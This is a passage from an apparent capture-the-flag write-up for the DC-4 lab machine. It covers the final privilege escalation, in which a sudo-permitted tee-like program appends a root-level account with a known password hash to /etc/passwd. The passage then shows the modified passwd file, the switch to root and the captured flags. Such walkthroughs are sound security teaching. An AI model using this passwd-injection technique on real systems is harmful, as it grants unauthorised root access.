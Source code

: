 So I can append something to a file with root privileges. I'll generate a passwd-grade password with the value "password", craft an entry to `/etc/passwd`, then append it with this program:

```bash
charles@dc-4:~$ sudo /usr/bin/teehee -a /etc/passwd
lemmy:$1$lemmy$ztKELy8y03kjX1kPJxCJv1:0:0:root:/root:/bin/bash
lemmy:$1$lemmy$ztKELy8y03kjX1kPJxCJv1:0:0:root:/root:/bin/bash
^C
```

Confirm it worked:

```bash
charles@dc-4:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
nginx:x:107:111:nginx user,,,:/nonexistent:/bin/false
charles:x:1001:1001:Charles,,,:/home/charles:/bin/bash
jim:x:1002:1002:Jim,,,:/home/jim:/bin/bash
sam:x:1003:1003:Sam,,,:/home/sam:/bin/bash
Debian-exim:x:108:112::/var/spool/exim4:/bin/false
lemmy:$1$lemmy$ztKELy8y03kjX1kPJxCJv1:0:0:root:/root:/bin/bash
```

Change to the new root user:

```bash
charles@dc-4:~$ su lemmy
Password:
root@dc-4:/home/charles# cd /root
root@dc-4:~# ls
flag.txt  proof.txt
root@dc-4:~# cat proof.txt
2655302305ac7dbb7b4a301ea4927c29
root@dc-4:~# cat flag.txt



888       888          888 888      8888888b.                             888 888 888 888
888   o   888          888 888      888  "Y88b                            888 888 888 888
888  d8b  888          888 888      888    888                            888 888 888 888
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P
```